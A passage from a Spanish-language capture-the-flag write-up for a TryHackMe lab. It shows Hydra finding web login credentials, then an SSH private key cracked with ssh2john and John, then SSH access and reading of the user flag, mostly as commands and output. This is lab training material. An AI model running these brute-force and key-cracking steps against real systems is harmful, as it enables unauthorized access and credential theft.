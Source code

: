 ```bash
[80][http-post-form] host: brute.thm   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-14 11:48:42
```
**Resultado**:  
Credenciales válidas: `admin:xavier`
**Acceso**: La página administradora permitía la descarga de un archivo `id_rsa` (clave privada SSH).
![](Pasted%20image%2020250414105241.png)
**Post-explotación inicial**:
1. Convertir clave a formato hash:
```bash
ssh2john id_rsa >id_rsa.hash   
```
2. Ataque con `john`:
``` bash
john id_rsa.hash --wordlist=../rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2025-04-14 12:00) 50.00g/s 3630Kp/s 3630Kc/s 3630KC/s saline..rock07
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
Resultado: `rockinroll` (passphrase de la clave)
Acceso SSH exitoso como el usuario `john`:
```bash
ssh -i id_rsa john@10.10.89.77
chmod 600 id_rsa

id_rsa john@10.10.89.77
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr 14 16:16:07 UTC 2025

  System load:  0.0                Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 20%                IP address for eth0: 10.10.89.77
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{****************************}

```